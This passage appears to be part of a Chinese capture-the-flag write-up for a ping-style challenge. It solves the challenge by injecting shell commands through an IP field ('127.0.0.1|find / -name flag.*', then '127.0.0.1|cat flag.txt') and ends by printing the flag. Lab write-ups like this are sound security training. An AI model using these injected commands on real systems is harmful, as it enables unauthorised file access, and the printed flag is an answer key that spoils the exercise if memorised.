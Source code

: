 很好什么都没有发现

然后直接寻找吧！

```shell
127.0.0.1|find / -name flag.*
```

[![5Qo2r9.png](../../_media/5Qo2r9.png)](https://imgtu.com/i/5Qo2r9)

得到在/home/flag.txt下

然后cat查看！！

```shell
127.0.0.1|cat flag.txt
```

[![5QofV1.png](../../_media/5QofV1.png)](https://imgtu.com/i/5QofV1)

得到flag！！！

```txt
cyberpeace{c3c70bbb893a6ea850881c22a97ea1fa}
```
